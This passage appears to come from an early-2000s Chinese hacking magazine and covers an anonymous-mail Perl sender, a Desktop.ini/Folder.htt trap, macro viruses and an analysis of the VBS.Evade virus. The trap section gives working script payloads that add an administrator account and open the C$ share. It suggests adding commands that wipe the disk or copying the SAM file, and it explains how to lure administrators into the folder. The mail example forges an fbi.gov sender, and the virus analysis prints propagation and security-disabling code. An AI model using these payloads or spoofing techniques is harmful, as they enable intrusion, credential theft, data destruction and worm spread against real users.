  print "Usage: $0 [server] [sender] [recepient]\n";
  exit;
}

$server = $ARGV[0];
$sender = $ARGV[1];
$recpt  = $ARGV[2];

print "Type message to send: ";
$message = <STDIN>;
$remote = IO::Socket::INET->new(
  PeerAddr => "$server",
  Proto    => "tcp",
  PeerPort => "25"
);

print "Connecting...\n";
sleep(1);
print $remote "HELO computer\n";
sleep(1);
print "Sending E-Mail Header Information\n";
print $remote "MAIL FROM: $sender\n";
sleep(1);
print $remote "RCPT TO: $recpt\n";
sleep(1);
print $remote "DATA\n";
sleep(1);
print "Sending Message\n";
print $remote "$message\n";
sleep(1);
print $remote ".\n";
sleep(1);
print "Anonymous E-Mail Sent!\n";
exit;
```

## 三：把 Perl 程序转换为可执行程序

大家一定很熟悉 Webdav 漏洞攻击程序 webdav3.pl，也是用 perl 写的，用 Activeperl 来运行，但是大家用的却是 exe 可执行文件，因为 Activeperl 还需要安装，有点麻烦。那么我们怎么把 perl 程序转换为可执行程序呢？用 Perlapp！当然先要安装 Activeperl，至于这两个程序，大家可以在光盘里面找到。

用 Perlapp 编译 pl 文件很简单，主要参数如下：

- `--add <modules>` additional modules to include
- `--bind <files>` additional files to be bound into the executable
- `--blib <paths>` additional places to look for perl modules
- `--clean` don't leave behind object files
- `--debug <location>` create a (remote) debugging executable
- `--dependent` exe will be dependent of a Perl installation
- `--exe <exefile>` name of exe file to generate
- `--explain <modules>` explain why module was included
- `--force` don't ask about overwriting existing exe
- `--gui` don't use a console
- `--help` print manpage (documentation)
- `--icon <icofile>` set icons associated with executable
- `--info <k>=<v>` set version info
- `--lib <paths>` additional places to look for perl modules
- `--nocompress` module source not compressed in exe
- `--tmpdir <path>` provide a replacement dir for tmp
- `--trim <modules>` don't include certain modules
- `--verbose` more noise when running
- `--version` print version number and exit
- `--xclude` don't include perlXX.dll

比较常用的就是 exe 和 icon，前者是转换后的程序文件名，后者则是图标的设置。好了，接下来就来转换了：

```bash
C:\perlapp --exe sender.exe --icon 1.ico sender.pl
PerlApp 5.1.0 build 510
Copyright (C) 1998-2003 ActiveState Corp. All rights reserved.
Commercial license for Longker <webmaster@longker.com>
Created sender.exe
```

编译成功，虽然代码很简单，但是用 Perlapp 编译的程序有点大，差不多是 400 多 K，那是因为集成了很多东西，所以我们可以用 aspack 这样的压缩工具处理下，就变小多了。下面是程序运行的界面：

```text
C:\>sender
Anonymous Mail Sender v1.0
Copyright(c) 2003 欲望之翼 From Longker.com
Program intended to send mail anonymously
Usage: sender [server] [sender] [recepient]

C:\>sender 218.5.15.197 root@fbi.gov webmater@fbi.gov
Type message to send: Our website is under attack!!!
Connecting...
Sending E-Mail Header Information
Sending Message
Anonymous E-Mail Sent!

C:\>
```

## 一次杀毒经历引出的网络安全话题

冷雪飘香

一次在某黑客网站下载了某黑客软件后，突然觉得机子打开文件夹的速度慢了一两秒，然后就在文件夹里产生了两个隐藏文件：Desktop.ini 和 Folder.htt。再去别的文件夹看看，发现同样的情况，而且打开文件夹的速度也较之往常慢了一两秒，每打开一个文件夹就生成 Desktop.ini 和 Folder.htt 这两个文件。看来是中了毒了，于是连忙开始杀毒。无奈手中没有正版杀毒软件，只好试试手工杀毒了。

首先在纯 DOS 下用“scanreg /restore”命令恢复以前的注册表，回到 Windows 下打开文件夹，发现现象并没有消失。于是又用“查找”功能把这两个文件全部找到，然后全部删除。再打开文件夹，情况消失了。重启，再打开文件夹，这两个文件又来了。看来还是要检查一下 Desktop.ini 的内容，打开看看，下面发生了变化：

```ini
[.ExtShellFolderViews]
Default={5984FFE0-28D4-11CF-AE66-08002B2E1262}
{5984FFE0-28D4-11CF-AE66-08002B2E1262}={5984FFE0-28D4-11CF-AE66-08002B2E1262}

[{5984FFE0-28D4-11CF-AE66-08002B2E1262}]
PersistMoniker=file://Folder.htt

[.ShellClassInfo]
ConfirmFileOp=0
```

似乎问题就出在上面，把 `PersistMoniker=file://Folder.htt` 改为 `PersistMoniker=file://*.*`，重启后仍然不成功。打开注册表，查找 PersistMoniker 键值，有好多个，经过分析，终于让我找到了 `PersistMoniker=file://Folder.htt`，试着把它改成 `PersistMoniker=file://*.*`，重启电脑，打开文件夹，停顿现象消失，那两个文件也不出现了。

很显然，这种现象的产生是利用了 Desktop.ini 和 Folder.htt 文件，再加上网管修改注册表造成的问题。其实，利用 Desktop.ini 和 Folder.htt 文件还会对网络安全有影响呢，这是由于一些网管的设置不当造成的。


我们一般认为没办法利用现在的权限进一步入侵。我以前碰到这样的肉鸡只能把它当作我的“网络硬盘”，但现在可以构造一个小小的个性目录，让它来浏览。由于 DESKTOP+HTT 文件联合的作用，可能使他的机器当掉，或者开默认共享，甚至得到 SAM 文件，伴随破解 ADMINISTRATOR 的口令。思路一说，大家也许都明白了：因为网管打开我们的目录，他的权限很高，所以不用去考虑什么权限问题，只要他进入我们的目录就行了。请看以下代码：

```html
<script language="vbscript">
function f()
  set wsh=CreateObject("WScript.Shell")
  wsh.run("c:\winnt\system32\net.exe user hacker hackeryahoo /add")
end function
</script>
```

以上的代码是可以在机器上加入一个叫 hacker 的用户，密码是 hackeryahoo。再看看这些：

```html
<script language=JavaScript>
function f(){
  var aa,ss;
  aa=document.applets[0];
  aa.setCLSID('{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}');
  aa.createInstance();
  ss=aa.GetObject();
  ss.RegWrite('HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Flags',302,'REG_DWORD');
  ss.RegWrite('HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Type',0,'REG_DWORD');
  ss.RegWrite('HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Path','c:\\');
}
</script>
```

以上的代码是打开 C$ 的默认共享。如果你稍微了解脚本语言，还有好多东西可以实现，比如在 AUTOEXEC.BAT 加入“FORMAT C:/y”或“DELTREE *.* /Y”。如果你不想破坏，还可以 COPY SAM 文件到你的指定目录。至于具体操作，明白 DESKTOP 和 HTT 文件的原理，把以上的代码加进去就不成问题了。

我们在对方的机器上建立一个目录，如“机密文件”或“极品图片”“最新驱动”等吸引人的名字，让网管看到就有想进入的欲望！然后把目录的属性改为只读，再把我们写好的 DESKTOP+HTT 文件 COPY 到那个目录下，当网管以 Web 方式查看我们的目录，他就中招了。好了，现在我们说一下解决方法：

### 对策

- 1、查看文件夹时，去掉以“Web页方式”的选项……
- 2、如果没有什么需要，去掉默认共享和共享目录……
- 3、脚本病毒一大特征就是利用 WSH……

> **注意**：在“控制面板”里选择“添加/删除程序”→“Windows 安装程序”→“附件”，去掉“Windows Scripting Host”。


## 全面了解宏病毒

飞扬

在 2002 年第七期中，我们为你简单地介绍了宏病毒的种类，本期中我会向大家更全面地讲解。在计算机病毒中有个另类，那就是宏病毒……让你成为宏病毒查杀高手。

宏病毒是一种寄存在文档或模板的宏中的计算机病毒。一旦打开这样的文档，其中的宏就会被执行……如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。

> **注意**：有一点大家必须明白：宏病毒与有用的正常宏采用相同的语言编写，只是这些宏的执行结果有害……

### 一、什么是“宏”

“宏”是微软公司为其 Office 软件包设计的一个特殊功能，目的是让用户文档中的一些任务自动化。Office 中的 Word 和 Excel 都有宏……

> **注意**：Microsoft Word 中对宏定义为“宏就是能组织到一起作为一键命令使用的一系列 Word 命令……”。

如果在 Word 中重复进行某项工作，可用宏使其自动执行。宏是将一系列 Word 命令和指令组合在一起……

- 以下是宏的一些典型应用：
- 1、加速日常编辑和格式设置。
- 2、组合多个命令。
- 3、使对话框中的选项更易于访问。
- 4、使一系列复杂任务自动执行。

Word 提供了两种创建宏的方法：宏录制器和 Visual Basic 编辑器……可在 Visual Basic 编辑器中打开已录制的宏，修改其中的指令。

### 二、什么是宏病毒

既然了解了宏的概念，那么宏病毒也就不难理解了。宏病毒……如果某个文档中包含了宏病毒，我们称此文档感染了宏病毒；如果 Word 系统中的模板包含了宏病毒，我们称 Word 系统感染了宏病毒。

### 三、宏病毒的分类

根据触发条件，Word 宏病毒至少可分为两类：一类是公用宏病毒……其触发条件是在启动或调用 Word 文档时自动触发执行。

- 这类宏病毒有两个显著特点：
- 1、宏名常以“AutoXXXX”命名，如 AutoOpen、AutoClose、AutoCopy 等；
- 2、通常要附加在 Word 公用模板（如 Normal.dot）上才有“公用”作用。

另一类称为“私用宏病毒”。私用宏病毒与公用宏病毒的主要区别是：前者一般放在用户自定义的 Word 模板中，仅与使用这种模板的文档有关……

从编制病毒者的目的看，一般 Word 宏病毒都被编制成公用宏并自动触发的程序形式……随着“Word 97”的使用，将其放在“HTML 模板”中进行传播。

### 四、宏病毒的原理

宏病毒的产生，是利用了一些数据处理系统内置宏命令编程语言的特性而形成的。这些系统内置宏编程语言的存在，使得宏病毒有机可乘，病毒可以把特定的宏命令代码附加在指定文件上，通过文件的打开或关闭来获取控制权，实现宏命令在不同文件之间的共享和传递，从而在未经使用者许可的情况下获取某种控制权，达到传染的目的。目前在可被宏病毒感染的系统中，以微软的 Word、Excel 居多。

### 五、宏病毒的作祟

以 Word 为例，一旦病毒宏侵入 Word，它就会替代原有的正常宏，如 FileOpen、FileSave、FileSaveAs 和 FilePrint 等，并通过这些宏所关联的文件操作功能获取对文件交换的控制。当某项功能被调用时，相应的病毒宏就会篡夺控制权，实施病毒所定义的非法操作，包括传染操作、表现操作以及破坏操作等。宏病毒在感染一个文档时，首先要把文档转换成模板格式，然后把所有病毒宏（包括自动宏）复制到该文档中。被转换成模板格式后的染毒文件无法转存为任何其它格式。含有自动宏的宏病毒染毒文档，当被其它电脑的 Word 系统打开时，便会自动感染该电脑。

例如，如果病毒捕获并修改了 FileOpen，那么，它将感染每一个被打开的 Word 文件。前边几乎所有已知的宏病毒都沿用了相同的作用机制，即如果 Word 系统在读取一个染毒文件时遭受感染，则其后所有新创建的 DOC 文件都会被感染。

### 六、判定系统中是否有宏病毒的简便方法

- 1. 在 Word 中点击“工具”栏处打开“宏”菜单，选中 Normal.dot 模板，若发现有 AutoOpen、AutoNew、AutoClose 等自动宏以及 FileSave、FileSaveAs、FileExit 等文件操作宏或一些怪名字的宏（如 AAAAAZAO、PayLoad 等），就极可能感染了宏病毒。


- 2. 在使用的 Word“工具”菜单中看不到“宏”这个字，或看到“宏”但鼠标点击无反应，这种情况可判定有宏病毒。
- 3. 打开一个文档，不进行任何操作，退出 Word，如提示存盘，可能是 Word 的 Normal.dot 模板中带宏病毒。
- 4. 打开以 DOC 为后缀的文档文件，在另存菜单中只能以模板方式存盘，也可能带有 Word 宏病毒。
- 5. 在运行 Word 过程中经常出现内存不足、打印不正常，也可能有宏病毒。
- 6. 在运行 Word 时，打开 DOC 文档出现是否启动“宏”的提示，该文档极可能带有宏病毒。

### 七、隐宏病毒的检查与清除

#### 1、用宏管理器检查并清除宏病毒

除了用上面的方法来判定宏病毒以外，在每次打开 Word 文档之前也要检查文档中是否有宏病毒。

> **注意**：选择“工具→宏→宏…”，在“宏名”中输入自动宏名，在“宏的位置”下拉列表中打开要检查的文档，若出现可疑宏（尤其来源不明的自动执行宏）即可删除；并检查模板中同名宏，避免再次感染。

#### 2、应用 WordBasic 编写宏检查并清除宏病毒

在模板“normal.dot”中编写名字为“AntiMacro_vir”的宏，自动检查指定路径下的 Word 文档，删除所有可能的病毒宏；程序同时检查 normal.dot 模板和当前激活 Word 文档中是否存在自动执行宏，如有则删除。

```vb
MacroVirusExist=0
active=CountMacros(1)
For I=1 To active
  Select Case LCase$(MacroName$(I,1))
    Case "autoopen"
    Case "autosave"
    Case "autoexec"
    Case "autonew"
    Case "autoclose"
      MacroVirusExist=-1
  End Select
Next I
If MacroVirusExist Then
  msg$="本文件可能被 Word 宏病毒感染" & Chr$(13) & Chr$(10)
  re=MsgBox(msg$,"注意!",1)
  If re=0 Then
    Organizer Delete ...
  EndIf
EndIf
End Sub
```

这一程序可清除文档和系统中所有的宏病毒。

#### 3、使用专业杀毒软件

目前已有几家杀毒软件公司相继推出了可安全检查和清除某些 Word 宏病毒的工具软件，如“病毒克星 for Word”、Microsoft MVTools、TrendMicro、HouseCall for Intranet 等。

### 七、宏病毒清除软件

ALERT for Macros（宏病毒之盾）等许多宏病毒清除软件，都很不错。

特别是采用了 Macro TrapTM 技术的宏病毒清除软件，对付宏病毒很是有一套！

我们先来看一下原有的防毒技术是怎样查杀宏病毒的。一般来说，原有的防毒技术是对已知的 Word 宏病毒码逐一比对，再找出特定地方进行删除。明显地，这种技术若单独使用，不再具有效率和任何效果。

例如：目前已找到的一些所谓“宏病毒产生器（Word Macro virus generation engines）”，凡是有这类产生器的人都能轻易地建立 Word 宏病毒。只要选择“payload”（所希望造成的破坏）和“infect”（感染方式），你将会立刻得到一种 Word 宏病毒。

在此情况下，若依然只着重在“检测率”或“清除率”此类的事，是毫无意义的，因为 Word 宏病毒产生得太快了，使得逐一比对的方式不能发挥其功效。另外，有些防毒方案采用一个宏来检测及清除宏病毒，这也是极危险的作法。因为有些宏病毒会覆盖掉此“防毒宏”，使其丧失功能，或甚至感染“防毒宏”使其成为病毒。

所以，使用者真正需要的是一种可以避免所有已知和未知 Word 宏病毒的解决方案。最迅速有效的方法应该是分析 Word 宏病毒的行为，然后研发出一套完全防毒的解决方案。Macro TrapTM 正是根据此概念而设计的一套完全解决方案。

Macro TrapTM 包含两个部分：扫描引擎（Scan Engine）和清除引擎（Clean Engine）。扫描引擎使用 OLE 的技术来分析 Word 文件中的宏指令行为。若宏有恶意的行为，扫描引擎将会立刻抓住它，然后再交给清除引擎来处理，清除引擎将开始进行清除工作。除了清除宏病毒之外，清除引擎会将中毒的 Word 文件保存回 DOC 格式。

Macro Trap 和其它防止宏病毒的技术不同，它会在 Microsoft Word 激活之前进行防毒工作，不需要打开 Word 文件即可进行病毒检查。使用 Macro TrapTM 将可知道哪些 Word 文件曾经受到感染，并会在激活 Microsoft Word 之前进行清除动作。最重要的是，使用者在 Microsoft Word 中编辑文件时，将不再恐惧所编辑的文件是否已经受到 Word 宏病毒的侵入。


当然，这些杀毒工具软件也只能对已知的宏病毒进行检查和清除（或保护），对于新出现的病毒或病毒的变种则可能不能正常地清除，或者可能会破坏文件的完整性。所以，对于怀疑有病毒的文件在利用软件清除之前，最好做一个备份以防万一。在使用 DOS 下的杀毒软件时应尤其小心。


（右栏说明）在 Word 97 及以上版本可在“工具→选项→常规”中勾选“宏病毒防护”。并提示在“模板和加载项”中谨慎加载文件、退出 Word 时保存 Normal.dot 后将其设为“只读”等操作建议。

- 2）对于使用 Word 97 以前版本的用户，需要自行编制一个名为 AutoExec 的宏。该宏在执行时将关闭其它所有自动执行的 Word 宏。将 AutoExec 宏保存到外部模板（如 AV.dot），必要时替换为 Normal.dot 模板使用。

```vb
Sub MAIN()
    DisableAutoMacros
End Sub
```

- 3）在 Excel 中选择“工具”菜单中的“选项”命令，在“常规”中选中“宏病毒防护功能”。
- 4）在 PowerPoint 中选择“工具”菜单中的“选项”命令，在“常规”中选中“宏病毒防护”。

### 八、宏病毒的防范

宏病毒的预防是完全可以做到的，只要在使用 Office 套装软件之前进行一些正确的设置，就基本上能够防止宏病毒的侵害。任何设置都必须在确保软件未被宏病毒感染的情况下进行。

#### 1、打开“宏病毒防护”

- 1）在 Word 中打开“工具”→“选项”→“常规”，将“宏病毒防护”打上勾（Word 97 及以上版本）。

#### 2、检查是否存在可疑的宏

当怀疑系统带有宏病毒时，首先应检查是否存在可疑的宏，也就是一些用户没有编制过、也不是 Word 默认提供而出现的宏，特别是出现一些奇怪名字的宏。可通过“工具”→“宏”→“删除”进行处理。

#### 3、备份模板

针对宏病毒感染 Normal.dot 模板的特点，可在新安装 Word 后先建立新文档，按使用习惯设置工作环境并编制需要的宏，保存后形成干净的 Normal.dot 模板，供后续恢复使用。当有宏病毒感染时，用备份的 Normal.dot 模板覆盖当前的模板，可以起到消除宏病毒的作用。同样地，把 WinwordStartup 目录下的 Powerup.dot、Prcadin.dot、Symbar.dot 也做个备份。这样，至少能保证 Word 每次启动时处于无毒状态。

#### 4、使用 Windows 自带的写字板打开 Word 文档

当使用外来可能有宏病毒的 Word 文档时，先用 Windows 自带的写字板打开，将其转换为写字板格式的文件保存后再用 Word 调用。因为写字板不调用、不记录、不保存任何宏。文档经此转换，所有附带的宏（包括宏病毒）都将丢失，这条经验特别有用。

#### 5、提示保存 Normal 模板

一般情况下，大部分 Word 用户使用的是普通的文字处理功能，很少使用宏编程，即对 Normal.dot 模板很少去进行修改。因此，用户可以选择“工具”→“选项”→“保存”页面，选中“提示保存 Normal 模板”项，如图 4 所示：


这样，一旦宏病毒感染了 Word 文档后，用户从 Word 退出时，Word 就会出现一个提示“更改的内容会影响到公用模板 Normal，是否保存这些修改内容？”，这是在警告你 Word 已感染宏病毒，此时应选择“否”，退出后再用杀毒盘进行杀毒。

#### 6、禁止所有的以 Auto 开头的宏的执行

在调用外来的 Word 文档时，除了用写字板对 Word 宏进行“过滤”外，还有一个简单的方法，就是在调用 Word 文档时先禁止所有的以 Auto 开头的宏的执行。这样能保证用户在安全启动 Word 文档后，再进行必要的病毒检查。为此，做了以上防护工作后，当提示是否启用宏时，除非能够完全确信文件中只包含明确没有破坏意图的宏，否则都不执行宏；而对退出时提示保存除文档以外的文件，如 Normal.dot 模板等，一律不予保存。

### 九、如何获取宏病毒源代码

为了了解宏病毒，就必须读它的源代码，可是有时候宏是加密的（Execute-only Macro），这时候该如何读源代码呢？

- 1. 重命名 Normal.dot，启动 Word，目的是防止 Word 启动时就带上了宏病毒。
- 2. 新建一个宏，专门用于读带毒文件中的宏代码（只是原理）。
- 3. 运行上面的宏，将宏代码拷贝到 Normal.dot，注意要改变宏的名字。
- 4. 阅读宏代码。
- 5. 关闭 Word，恢复原来的 Normal.dot。现在，你得到宏病毒的源代码了，好好分析一下吧！

```vb
Sub Main
  DisableAutoMacros      ' 关键，防止引入宏病毒
  Dim D As FileOpen
  GetCurValues D
  Dialog D
  FileOpen D             ' 设一段用于打开带毒文件
  MacroCopy D.Name$ + ":CAP", "sourceCAP", 0
  MacroCopy D.Name$ + ":AutoOpen", "notAutoOpen", 0
  ' 以 CAP 宏病毒为例，将宏代码拷贝到 normal.dot
  FileClose 2
End Sub
```

OK，现在你知道宏病毒是怎么回事了吧？“对付”宏病毒是不是多了几分把握？其实，只要你能注意，提高警惕，了解并掌握宏病毒的特点及预防、检查、清除方法，你会发现宏病毒并不那么可怕。

## 躲避者病毒分析

2003 年 2 月，国内发现一个混合型脚本病毒“叛逃者”（VBS.Evade）。该病毒不但感染脚本文件、Excel 和 Word 文档，而且还会直接覆盖一部分音乐、视频及工作文档。与此同时，它还会通过 Email 到处发送已被感染的 Office 文档，造成用户重要信息泄露。因此，该病毒危害性极大。下面就该病毒的工作原理和解决办法具体分析介绍一下：

### 一、该病毒的感染特征

“叛逃者”病毒属于 VBS 脚本病毒，同时它也具有宏病毒的特征。当用户机器被感染这种病毒后，会发生以下变化：

- 1. 对注册表的修改
  - 添加 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Winstart`，其值为 `Wscript.exe SysDir\Winstart.vbs %1`。
  - 修改 `HKEY_LOCAL_MACHINE\Software\Microsoft\Xl.Application.Version\Excel\Security\Level` 和 `...\AccessVBOM` 为 1。

- C）修改 `HKEY_LOCAL_MACHINE\Software\Microsoft\Wd.Application.Version\Excel\Security\Level` 和 `HKEY_LOCAL_MACHINE\Software\Microsoft\Wd.Application.Version\Excel\Security\AccessVBOM` 为 1。  
- D）在 `HKEY_CURRENT_USER\Software\Zed[/rRlf]/VBS/Evade\RecordContacts\` 键下面会建立相应的 Email 发送结果记录。  
- E）添加键值 `HKEY_CURRENT_USER\Software\Zed[/rRlf]/VBS/Evade VBS/Evade.A by Zed[rRlf]`。  

## 2、添加的文件

该病毒运行后，会在用户的 Windows 目录添加如下两个病毒体文件：`Netlnk32.vbs`、`Conversation.vbe`；会在用户的系统目录添加如下四个病毒体文件：`Winstart.vbs`、`Wininst32.vbs`、`Winnt32.vbs`、`Winnet32.vbs`；在 C 盘根目录下建立文件 `Passwords.vbs`。它们都是对病毒本身的完整备份。会在系统目录添加 `evade.gif`、`evade.jpg`，这两个文件是用来载入到 Excel 和 Word 中的病毒文件副本。

## 3、对文件的修改

如果存在 `personal.xls` 文件，则原有文件将被删除，并且建立新的 `personal.xls` 文件；否则，直接建立 `personal.xls` 文件。同时病毒也对 Word 的模板进行感染。

如果存在 MIRC，则修改 `Script.ini` 文件。

## 4、被感染的文件类型

病毒会对 `.vbs`、`.vbe` 文件进行感染，同时也会用病毒体对 9 个目录下的所有后缀 `.mp3`、`.mp2`、`.avi`、`.mpg`、`.mpeg`、`.mpe`、`.mov`、`.pdf`、`.doc`、`.xls`、`.mdb`、`.ppt`、`.pps` 的数据文件进行覆盖。

## 三、该病毒的技术特点

### 1、加密

该病毒属于加密性病毒，并且加密手法与一般病毒不同：一般病毒是整体加密，但是该病毒只是对病毒中的某些关键字串进行了加密。“叛逆者”病毒加密算法比较简单，但是由于加密字串是分开的，并且是解密一处、执行一处，这样就无法整体对这个病毒进行解密。

### 2、脚本与宏病毒双重特性

“叛逆者”病毒在感染 vbs、vbe 脚本病毒的同时，也感染了 Word 模板和 Excel 的 `personal.xls` 文件。在对 Word 和 Excel 进行感染处理、自我保护方面，和宏病毒所采取的手段是一模一样。可以说该病毒是结合了脚本与宏的特点。

### 3、传播手段多样化

该病毒用到了几乎现行所有脚本病毒曾经用过的传播方式：文件感染、Email 传播、IRC 通道传播、各种点对点共享工具传播（KaZaA、Morpheus、Grokster、Bearshare、Edonkey），同时也采用了宏病毒的传播方式：通过模板、文档文件进行感染。

### 4、代码破坏性极大

病毒不对系统文件进行任何破坏，但是覆盖用户常用的一些宝贵数据，如 mp3、mpg、avi、doc、pdf、mdb、ppt 等文件。这种覆盖是不可逆的，并且病毒在借助其传播时并没有为这些宝贵数据留下副本。

## 三、该病毒运行的大致流程

- 1. 复制病毒文件到用户 Windows 目录和系统目录。  
- 2. 修改注册表，改变 Excel 的安全级别。  
- 3. 写病毒代码到 `Evade.gif`，并将 `Evade.gif` 导入到 `Personal.xls` 文件。  
- 4. 修改注册表，改变 Word 的安全级别。  
- 5. 写病毒代码到 `Evade.jpg`，并将该文件导入到 Word 通用模板。  
- 6. 搜索整个磁盘，搜索到 C 盘时在 C 盘根目录下创建病毒副本 `Passwords.vbs`。  
- 7. 感染硬盘上所有 `.vbs`、`.vbe` 文件。  
- 8. 对指定 9 个目录进行搜索，用病毒文件覆盖满足条件（指定 13 种后缀）的文件。  
- 9. 如存在 MIRC，修改 `Script.ini`，使其可通过 MIRC 聊天通道发送病毒文件 `Conversation.vbe`。  
- 10. 修改注册表，标明病毒作者信息及版本。  

通过以上步骤后，Excel 和 Word 已被感染。当用户对这两种文档进行操作时，便会触发执行另外两段病毒代码。

## 四、具体代码分析

### 1、主体病毒代码

#### A）、加密机制分析

该病毒的解密函数代码如下：

```vb
Function E0(E1)
  For E2 = 1 To Len(E1)
    E3 = Mid(E1, E2, 1)
    If Not Asc(E3) Mod 2 = 0 Then
      E3 = Chr(Asc(E3) - 1)
    Else
      E3 = Chr(Asc(E3) + 1)
    End If
    E0 = E0 & E3
  Next
End Function
```

这个函数的作用：对给出的字符串 E1，逐字符判断其 ASCII 码奇偶；奇数则减 1，偶数则加 1，再拼接成结果字符串。该过程再次执行可还原原字符，因此也是加密函数。文中示例中加密字符串可解密为 `Scripting.FileSystemObject`，并指出该方法只能对部分字串进行处理，难以一次还原全部加密代码。

在分析该病毒的过程中，笔者编写了如下⼀段小程序进行解密（这段代码可以放在附件中）：

```vb
Do While inchar <> "dyhu"
    inchar = InputBox("请输入加密字符串(结束请输入exit)")
    inchar = E0(inchar)
    WScript.Echo inchar
Loop

Function E0(E1)
    For E2 = 1 To Len(E1)
        E3 = Mid(E1, E2, 1)
        If Not Asc(E3) Mod 2 = 0 Then
            E3 = Chr(Asc(E3) - 1)
        Else
            E3 = Chr(Asc(E3) + 1)
        End If
        E0 = E0 & E3
    Next
End Function
```

为了方便大家理解，后面列出的代码中的加密字符串用解密过的字符串代替。

#### B）、对 Excel 所作的修改

病毒对 Excel 作修改的代码分析如下：

```vb
XlKey = "HKEY_CURRENT_USER\Software\Microsoft\Office" & Xl.Application.Version & "\Excel\Security"
wsc.RegWrite XlKey & "\Level", 1, "REG_DWORD"
wsc.RegWrite XlKey & "\AccessVBOM", 1, "REG_DWORD"

'这里是写入注册表，修改Excel的安全等级

Xl.Visible = False
Xl.WorkBooks.Add
Xl.ActiveWorkbook.VBProject.VBComponents.Import (fso.GetSpecialFolder(1) & "\Evade.gif")
'导入Evade.gif中的病毒代码
Xl.ActiveWorkbook.SaveAs (Xl.Application.StartupPath & "\Personal.xls")
'将Evade.gif的内容保存到Personal.xls文件
Xl.Quit
```

可见，通过上面这段程序，病毒将病毒代码写入到了 `Personal.xls`，这样以后打开 Excel 时就会自动执行另外一段病毒代码。这段病毒代码后面会加以分析。

#### C）、对 Word 所作的修改

病毒对 Word 作修改的代码分析如下：

```vb
WdKey = "HKEY_CURRENT_USER\Software\Microsoft\Office" & Wd.Application.Version & "\Word\Security"

wsc.RegWrite WdKey & "\Level", 1, "REG_DWORD"
wsc.RegWrite WdKey & "\AccessVBOM", 1, "REG_DWORD"
'这里是写入注册表，修改Word的安全等级
```

```vb
Wd.Options.VirusProtection = False   '关闭病毒保护功能
Wd.Options.SaveNormalPrompt = False  '自动保存模板，不给用户提示
Wd.Options.ConfirmConversions = False '不给出确认信息

If Wd.NormalTemplate.VBProject.VBComponents.Item("Evade").Name <> "Evade" Then
    Wd.NormalTemplate.VBProject.VBComponents.Import SysDir & "\Evade.jpg"
    Wd.NormalTemplate.VBProject.VBComponents.Item("Evade").Name = "Evade"
    '将Evade.jpg的内容保存到Word通用模板
End If
```

可见，通过上面这段程序，病毒将病毒代码写入到了 Word 通用模板，这样以后打开 Word 时也会自动执行另外一段病毒代码。这段病毒代码后面也会加以分析。

#### D）、往 Gif、Jpg 文件中写入病毒主体代码时采取的方法

病毒在往 `evade.gif`、`evade.jpg` 文件中写入的并不是直接的 vbs 代码，这段 vbs 代码写入时是通过一段转换代码处理过的，该段代码将病毒体的字符串转换为每个字符 ASCII 码串（其中 ASCII 码以 16 进制表示）。其具体代码分析如下：

```vb
For i = 1 To Len(ScriptRead)
    Tz = Mid(ScriptRead, i, 1)
    Tz = Hex(Asc(Tz))                 '取字符的Ascii码，并将其转化为16进制串
    If Len(Tz) = 1 Then               '如果该字符的Ascii码小于等于F
        Tz = E0("1") & Tz            '在字符串前面加0，例如：将D转换为0D
    End If

    Gz = Gz + Tz                      '整合处理过的字符串
    If Len(Gz) = 110 Then             '如果处理的字符串达到110个字符（实际是55个字符）
        EM.WriteLine "Tz = Tz + """ + Gz + Chr(34)
        Gz = E0("N")                  '将Gz清空，以便继续处理
    End If

    If Len(ScriptRead) - i <= 0 Then  '如果所有字符已经处理完
        EM.WriteLine "Tz = Tz + """ + Gz + Chr(34)
        Gz = E0("N")
    End If
Next
```

#### E）、病毒的感染部分

“叛逃者”病毒会对整个磁盘进行搜索，寻找满足条件的文件，其搜索代码和“爱虫”病毒的搜索代码基本上是一模一样：搜索到每个盘符后，先检查该盘符是否为软磁盘或硬盘，如果是则对其进行递归，搜索每个文件夹，查找每个满足条件的文件……在找到 C 盘后，会在 C 盘根目录下创建一个名为 `Passwords.vbs` 的病毒副本。

```vb
If UCase(NetDrive.Path) <> "C:" Then
    fso.CopyFile WScript.ScriptFullName, NetDrive.Path & "\Passwords.vbs"
End If
```

病毒为避免反复感染同一个文件，会先查看该文件中是否含有病毒标记 `" VBS/Evade by Zed [/rRlf]"`，并将病毒代码写在原来文件末尾。

- `C:\Kazaa\My Shared Folder`
- `C:\My Downloads`
- `C:\Program Files\Kazaa\My Shared Folder`
- `C:\Program Files\KaZaA Lite\My Shared Folder`
- `C:\Program Files\Bearshare\Shared`
- `C:\Program Files\Edonkey2000`
- `C:\Program Files\Morpheus\My Shared Folder`
- `C:\Program Files\Grokster\My Grokster`
- `C:\Program Files\ICQ\Shared Files`

并对 `.mp3`、`.mp2`、`.avi`、`.mpg`、`.mpeg`、`.mpe`、`.mov`、`.pdf`、`.doc`、`.xls`、`.mdb`、`.ppt`、`.pps` 等 13 种数据文件进行覆盖……用户会误以为这些文件是原文件而去双击它。

#### F）利用 MIRC 进行传播

“叛逃者”病毒可以利用 MIRC 聊天通道进行传播。它修改 `script.ini` 文件，使得 MIRC 会自动向通道中的其他好友发送病毒文件。

```ini
; Mirc Scripting utility ... do not modify
[script]
n5=on *:join:#:{
n6=//if ($nick==$me) {halt}
n7=/msg $nick Remember this funny conversation I had on IRC?
n8=/dcc send -c $nick _WinDir_\Conversation.vbe
n9=}
```

### 2、两个“图片”文件的代码分析

#### A）`evade.gif` 文件

该文件是要被导入到 `personal.xls` 文件中的病毒副本。病毒副本首先修改 Excel 安全等级，并建立一个 `Auto_Open` 函数……每次打开 Excel 文件时，病毒就会获得控制权。

```vb
Application.ScreenUpdating = False
Application.DisplayAlerts = False
Application.EnableCancelKey = xlDisabled
Application.DisplayStatusBar = False
```

病毒还会检查目录下是否存在 `personal.xls`、`Winstart.vbs`，如果不存在，则写入 `evade.gif` 文件为样本创建这两个文件。

该文件中最重要的步骤是从当前 Outlook 中的电话簿中找到 Email 地址，并发送带毒 Office 文档。

```vb
EmailKey = "HKEY_CURRENT_USER\Software\Zed[/rRlf]\VBS/Evade\RecordContacts\"
ReadIfSent = wsc.RegRead(EmailKey & ContactSwitch.AddressEntries(UserGroup))
If ReadIfSent <> "File Sent" Then
    Set OutlookEmail = OutlookApp.CreateItem(0)
